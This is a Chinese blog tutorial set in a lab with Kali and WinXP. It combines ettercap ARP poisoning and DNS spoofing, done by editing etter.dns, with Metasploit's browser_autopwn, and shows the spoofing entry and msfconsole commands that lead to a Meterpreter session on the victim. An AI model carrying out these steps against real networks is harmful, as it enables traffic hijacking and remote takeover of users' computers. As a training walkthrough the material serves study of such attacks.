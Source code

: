 ```yaml
---
layout: post
category: binghe-code-hack
title: 与DNS欺骗的结合使用
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 与DNS欺骗的结合使用
lock: need
---
```


# 与DNS欺骗的结合使用

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

在《[客户端渗透之——浏览器渗透](https://blog.csdn.net/l1028386804/article/details/86632106)》和《[客户端渗透之——对网站的客户进行渗透](https://blog.csdn.net/l1028386804/article/details/86632147)》中，我们看到了一个传统的browser autopwn攻击以及改进后针对网站用户的攻击。其中，我们受到了一个约束，就是必须要通过某种方式将陷阱链接发送给受害者。在这篇文章中，我们不再向受害者发送任何链接，而是等待他们去浏览自己喜欢的网站。

这种攻击只能在局域网环境。因为若想采用这种方式，首先需要执行ARP欺骗。ARP工作在协议层的第二层，只有在同一个广播域下工作。但如果可以通过某种方式来修改远程受害者主机的hosts文件，我们就可以不用考虑这个限制，这通常被称为一个域欺骗攻击。

## 使用DNS劫持欺骗受害者

首先对受害者发起一个ARP毒化攻击，并执行DNS查询欺骗。因此，如果受害者试图打开一个常用的网站主页，例如http://google.com，结果却是打开了我们设置的browser autopwn服务的陷阱主页，进而使得他的系统遭到了来自陷阱网站的攻击。

## 查找etter.dns文件

我们需要创建一个DNS毒化列表，通过输入如下命令来找到伪造DNS条目保存的文件。

```bash
locate etter.dns

root@binghe:~# locate etter.dns
/etc/ettercap/etter.dns
```

## 创造伪造DNS列表

这里，我们使用的ARP毒化工具为ettercap,首先，找到 etter.dns 文件并创造一个伪造的DNS列表，为了实现这一点，需要修改etter.dns文件中的列表。

```bash
vim /etc/ettercap/etter.dns
```



![img](https://img-blog.csdnimg.cn/20190124203421488.png)

这里，我们加入了一行google.com A 192.168.175.128，这个假冒的DNS条目指向设置了browser autopwn服务的主机IP。因此，受害者并没有进入自己原计划的网站，而是进入了运行着browser autopwn服务的那个缺陷网站。

这样，当受害者发出一个关于域名http://google.com的DNS请求时，这个列表就会把攻击者计算机的IP地址作为响应发送给他。

## 使用ettercap毒化内网

## 启动ettercap

在Kali命令行运行命令：

```bash
ettercap -G
```

启动ettercap图形界面。

![img](https://img-blog.csdnimg.cn/20190124203512151.png)

## 选择网卡接口

依次选择ettercap的Sniff->Unified sniffing...打开选择网卡的弹出框，选择eth0后确定。

![img](https://img-blog.csdnimg.cn/20190124203533985.png)

![img](https://img-blog.csdnimg.cn/2019012420354328.png)

## 扫描目标网络范围

对目标网络范围内的主机IP进行扫描，验证哪些主机处于在线状态，

依次点击hosts->Scan for hosts

![img](https://img-blog.csdnimg.cn/20190124203606592.png)

## 查看在线主机

依次点击Hosts->Hosts list

![img](https://img-blog.csdnimg.cn/20190124203626802.png)

![img](https://img-blog.csdnimg.cn/20190124203635935.png)

可以看到我们靶机IP 192.168.175.130也在结果列表中。

## 配置网关和靶机IP

这里，我们将网关的地址添加到目标2，将靶机IP添加到目标1，以后就将网关看作目标2，将靶机看作目标1。因为我们需要截获靶机发往网关的通信。

![img](https://img-blog.csdnimg.cn/20190124203701243.png)

![img](https://img-blog.csdnimg.cn/20190124203709825.png)

添加后的结果：

![img](https://img-blog.csdnimg.cn/20190124203725796.png)

## 设置ARP Poisoning

依次点击Mitm->ARP poisoning

![img](https://img-blog.csdnimg.cn/2019012420375615.png)

选中Sniff remote connections后确定。

![img](https://img-blog.csdnimg.cn/20190124203820767.png)

## 执行Start Sniffing

依次点击 Start->Start sniffing

![img](https://img-blog.csdnimg.cn/2019012420384134.png)

这时，会输出一个“Unified sniffing already started...”的提示信息

![img](https://img-blog.csdnimg.cn/20190124203859182.png)

## 激活DNS欺骗插件程序

依次点击Plugins->Manage the plugins

![img](https://img-blog.csdnimg.cn/20190124203914611.png)

双击dns_spoof以激活DNS欺骗

![img](https://img-blog.csdnimg.cn/20190124203930789.png)

双击后的效果为：

![img](https://img-blog.csdnimg.cn/20190124203945594.png)

这个插件被激活之后将会发送伪造的DNS数据，这些数据是我们之前在etter.dns中修改过的。因此，无论何时，只要受害者发送某个特定网站域名的DNS请求，攻击就会伪造一个响应，使用etter.dns文件中假冒的DNS条目来代替真实的条目。

## 启动陷阱网站

接下来在80端口启动陷阱网站

```bash
msfconsole
use auxiliary/server/browser_autopwn
set LHOST 192.168.175.128
set SRVPORT 80
set URIPATH /
exploit
```

![img](https://img-blog.csdnimg.cn/20190124204053680.png)

## 在靶机上访问链接

在靶机上打开链接http://google.com

![img](https://img-blog.csdnimg.cn/20190124204120444.png)

这样，我们就可以拿到靶机的Meterpreter。

## 查看靶机的ARP信息

![img](https://img-blog.csdnimg.cn/20190124204141828.png)

可以看到攻击机和网关的Mac地址一样，这是我们对内网进行了ARP毒化的结果。

**最后，这种方式只能用在局域网，如果想在一个广域网中实现这种攻击，就需要修改受害者的主机文件。这样当受害者试图访问一条执行的URL时，篡改过的主机文件条目将这个URL定向到那个恶意autopwn服务器上。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)